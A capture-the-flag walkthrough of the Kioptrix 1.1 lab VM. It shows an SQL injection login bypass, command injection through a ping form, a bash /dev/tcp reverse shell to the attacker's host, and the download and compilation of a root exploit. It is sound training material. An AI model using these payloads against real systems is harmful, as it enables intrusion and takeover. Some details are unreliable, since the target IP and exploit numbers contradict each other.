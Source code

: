 # Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `netdiscover -i eth0 -r 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `netdiscover` command specify that the network device `eth0` should be used for sniffing for ARP packets, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.

![](images/ifconfig.png "ifconfig shows us that our attacker's IP address is 10.0.2.5")

![](images/netdiscover.png "netdiscover -i eth0 -r 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

`netdiscover` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.6`, because VirtualBox typically uses the `08:00:27` MAC address prefix. After `ping`ing both of the addresses, it is determined that `10.0.2.4` is the target, because it replies to the pings.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.4` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.4`, which will just tell us the services that are running.

![](images/nmap.png "nmap -sV 10.0.2.4 shows us which services are running on the machine")

We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.

![](images/openssh.png "searchsploit openssh shows us the available exploits for OpenSSH")

Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.4` in Firefox gives us a login screen for remote system administration. This seems like a promising attack vector.

![](images/login.png "http://10.0.2.4 loaded in Firefox")

Since MySQL is also running on the target machine, it's likely that this login form is using SQL, and we can check to see if it's vulnerable to an SQL injection. A simple login SQL query would be something like `SELECT id FROM Users WHERE Username = 'InputUsername' AND Password = 'InputPassword'`, so we can manipulate the username and password parameters to get a valid SQL statement that will let us log in. If we use `' OR ''='` for both the username and the password, then the SQL query becomes `SELECT id FROM Users WHERE Username = '' OR ''='' AND Password = '' OR ''=''`, which will essentially check if `''=''` evaluates to true, which it does, allowing us to bypass proper authentication. This will log us in as the first user in the user table, and we now have access to the administrative web interface.

![](images/console.png "Using ' OR ''=' for both the username and password logs us in to the admin console")

This interface provides a text box where we can input an IP address and the target will ping it and provide the results for us.

![](images/ping.png "Result of putting 8.8.8.8 into the text box and submitting")

Interestingly enough, the results that are provided seem to be the same as if the Unix command `ping -c 3 8.8.8.8` was used. Could it be possible that the web interface is just throwing what we type into the text box into the command and executing it on the server? Let's test out this theory by putting `8.8.8.8; whoami` into the field. This will allow us to run the `whoami` command after the server pings 8.8.8.8, and if our hypothesis is correct, we'll see the user that the web interface is running the command as.

![](images/whoami.png "Result of putting 8.8.8.8; whoami into the text box and submitting")

Looks like the idea was right. We can see that after the ping results, there's a line for "apache," meaning that this is who the commands are running under, and that we have remote command execution on the machine. However, we don't have root access yet, which is our main objective. Additionally, our access is limited to just sending commands, we don't have a completely interactive way of communicating with the target machine. These issues are what we will solve in the next step.

## Elevating access

Let's try to achieve an interactive way to talk to the target machine. Since we can execute a command with the administrative web console, we can use `nc` on our attacking machine and `bash` on the console to start an interactive session. The command `nc -lvp 4444` on our attacking system allows us to listen on port 4444 for incoming connections and provide verbose output. After this is listening, we can submit `; bash -i >& /dev/tcp/10.0.2.5/4444 0<&1` into the text box and this will connect our two machines with an interactive session. The arguments to the `bash` command will run a new interactive instance of bash with standard output and standard error being redirected to a TCP connection to the chosen IP address and port, in this case our attacker's VM and the port that `nc` is listening on, and that standard input will be read through this connection.

![](images/connected.png "The two machines now have an interactive session")

After submitting this, the web browser will display a constantly loading page and our `nc` listener will now have a `bash` shell waiting for us.

Now that we're connected to the target machine, we need to find a way to gain root access, as the apache user we're logged in as doesn't have sudo or root privileges by default. We're going to see what directory we're currently in with the `pwd` command, and we'll use `ls -l` to see if we're allowed to write to any files in our current directory. Then, we'll attempt to find out what specific operating system the target machine is running with `uname -a`, `lsb_release -a`, and `cat /etc/*-release` to see if there are any useful local exploits we can run.

![](images/info.png "Information gathered about our target system")

From the results of these commands, we can see that we're currently in the /var/www/html directory, where we are not allowed to write to any files, and that the target is running CentOS 4.5. We can use the `searchsploit` command again on our attacking machine to see if we can find any local privilege escalation exploits that we can use. Running `searchsploit centos local -o` will show all of the local exploits available for CentOS, with the `-o` flag allowing the exploit names to be fully shown. While it may not look pretty, it will help us find the exploit we want easier.

![](images/centos.png "searchsploit centos local -o shows us the available local exploits for CentOS")

We can see that there are a few local privilege escalation exploits to choose from, and after trying them all, I've found that exploits/linux/local/9545.c is the one that works best right out of the box. Now, we need to get the exploit loaded on the target machine.

Since the apache user can't write to the current directory it's in, we will use the /tmp directory, which can be written to and read by any user. A simple `cd /tmp` will take us there. We can then use the `wget` command to download the exploit source code from [exploit-db](https://www.exploit-db.com/raw/9542/ "The source code for the exploit we're using") onto the target. The specific command we'll use will be `wget --no-check-certificate http://www.exploit-db.com/raw/9542 -O exploit.c`, which will bypass certificate verification (you shouldn't do this unless you are convinced of the site's authenticity or you don't care about the validity of its certificate), and download the contents of the page into the exploit.c file.

Once the exploit is downloaded, we can use `gcc` to compile it because we just downloaded exploit source code written in C. After you compile the exploit with `gcc exploit.c`, there will be an executable file called a.out, and now you can run the exploit with `./a.out`. We can see that the exploit worked because our prompt symbol changed from `$` to `#`, and if we run `whoami`, we can see that we are now root!

![](images/escalation.png "Downloading and executing the exploit")
